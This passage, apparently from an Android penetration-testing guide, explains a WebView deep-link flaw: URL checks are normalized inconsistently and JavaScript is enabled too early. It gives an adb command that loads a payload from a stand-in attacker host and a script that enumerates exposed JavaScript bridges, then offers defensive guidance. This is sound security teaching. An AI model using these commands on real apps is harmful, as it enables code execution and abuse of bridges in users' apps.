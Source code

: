 Why it’s exploitable
- Inconsistent normalization: helpers split/rebuild the URL differently than the final check, creating mismatches a malicious URL can exploit.
- Misordered pipeline: enabling JS in step 2 applies globally to the WebView instance, affecting the final load even if verification would later fail.

How to test
- Craft deep-link payloads that pass early checks and reach the WebView configuration site.
- Use adb to fire implicit VIEW intents delivering a `url=` parameter controlled by you:

```bash
adb shell am start -a android.intent.action.VIEW \
  -d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"
```

If exploitation succeeds, your payload executes JavaScript in the app’s WebView. From there, probe for exposed bridges:

```html
<script>
for (let k in window) {
  try { if (typeof window[k] === 'object' || typeof window[k] === 'function') console.log('[JSI]', k); } catch(e){}
}
</script>
```

Defensive guidance
- Canonicalize once; validate strictly against a single source of truth (scheme/host/path/query).
- Only call `setJavaScriptEnabled(true)` after all allowlist checks pass and just before loading trusted content.
- Avoid exposing `@JavascriptInterface` to untrusted origins; prefer per-origin gating.
- Consider per-WebView instances for trusted vs untrusted content, with JS disabled by default.

### **JavaScript and Intent Scheme Handling**

- **JavaScript**: Disabled by default in WebViews, it can be enabled via `setJavaScriptEnabled()`. Caution is advised as enabling JavaScript without proper safeguards can introduce security vulnerabilities.
- **Intent Scheme**: WebViews can handle the `intent` scheme, potentially leading to exploits if not carefully managed. An example vulnerability involved an exposed WebView parameter "support_url" that could be exploited to execute cross-site scripting (XSS) attacks.

![Vulnerable WebView](<../../images/image (1191).png>)
